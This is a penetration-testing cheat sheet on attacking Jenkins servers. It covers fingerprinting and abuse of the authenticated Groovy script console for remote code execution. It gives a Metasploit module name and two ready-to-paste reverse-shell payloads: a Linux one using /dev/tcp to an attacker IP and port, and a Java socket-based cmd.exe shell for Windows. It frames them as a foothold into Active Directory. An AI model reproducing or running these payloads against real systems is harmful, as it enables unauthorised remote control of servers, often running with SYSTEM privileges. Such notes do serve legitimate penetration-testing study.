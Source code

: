 # Jenkins

## **Introduction**

> * Jenkins is a continuous integration server.
> * Jenkins runs on Tomcat port 8080 by default
> * The default installation typically uses Jenkins’ database to store credentials and does not allow users to register an account.
> * Jenkins if often inside internal networks
> * Jenkins is often installed on Windows servers running as the SYSTEM account.
> * If we can gain access via Jenkins and gain remote code execution as the SYSTEM account, we would have a foothold in Active Directory to begin enumeration of the domain environment.
> * It is not uncommon to find Jenkins instances that do not require any authentication during an internal penetration test
> * We can fingerprint Jenkins quickly by the telltale login page.

***

## **Jenkins Script Console RCE \[Authenticated]**

> * After gaining access to a Jenkins application, you can navigate to the script console: `http://jenkins.test.example:8000/script`
> * The script console allows us to run arbitrary Groovy scripts within the Jenkins controller runtime.
> * This can be abused to run operating system commands on the underlying server.

**Linux PoC Script:**

* MSFConsole: `use exploit/multi/http/jenkins_script_console`
*   Reverse shell:

    ```
    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/your-attacker-ip/your-nc-port;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()
    ```

**Windows PoC Script:**

*   Reverse shell:

    ```
    String host="your-attacker-ip";
    int port=your-nc-port;
    String cmd="cmd.exe";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
    ```
